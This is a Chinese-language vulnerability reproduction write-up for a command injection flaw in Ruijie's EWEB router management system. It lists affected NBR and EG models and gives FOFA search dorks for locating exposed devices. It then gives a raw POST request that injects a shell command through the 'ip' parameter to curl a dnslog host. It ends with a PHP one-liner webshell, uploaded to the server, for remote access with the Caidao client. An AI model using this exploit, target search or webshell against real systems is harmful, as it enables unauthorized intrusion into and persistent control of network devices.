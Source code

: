 # 影响范围：
NBR系列:  
NBR108G-P、NBR1000G-E、NBR1300G-E、NBR1700G-E、NBR2100G-E、NBR2500D-E、NBR3000D-E、NBR6120-E、NBR6135-E、NBR6205-E、NBR6210-E、NBR6215-E、NBR800G、NBR950G、NBR1000G-C/NBR2000G-C/NBR3000G-S   
EG系列:  
RG-EG1000C、RG-EG2000F、RG-EG2000K、RG-EG2000L、RG-EG2000CE、 RG-EG2000SE、RG-EG2000GE、RG-EG2000XE、RG-EG2000UE、RG-EG3000CE、RG-EG3000SE、RG-EG3000GE、RG-EG3000ME、RG-EG3000UE、RG-EG3000XE、RG-EG2100-P、EG3210、EG3220、EG3230、EG3250
# FOFa dork：
title="锐捷网络-EWEB网管系统" 
icon_hash="-692947551"
# 漏洞复现：
登录页面：
![image](images/login.png)
漏洞发生于文件 /guest_auth/guestIsUp.php，通过构造请求包，在ip参数处通过拼接命令进行命令执行，post包如下：    
```
POST /guest_auth/guestIsUp.php HTTP/1.1
Host: 127.0.0.1
Connection: close
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.121 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Content-Length: 61


mac=1&ip=127.0.0.1|curl xxx.dnslog.cn&mac=00-00
```
![image](images/success.png)  
Dnslog成功接收到响应    
![image](images/dnslog.png)  
脚本执行后自动上传PHP一句话到服务器
```
<?php @eval($_POST[a]);?>
```
![image](images/script.png)  
使用菜刀连接即可  
![image](images/caidao.png)


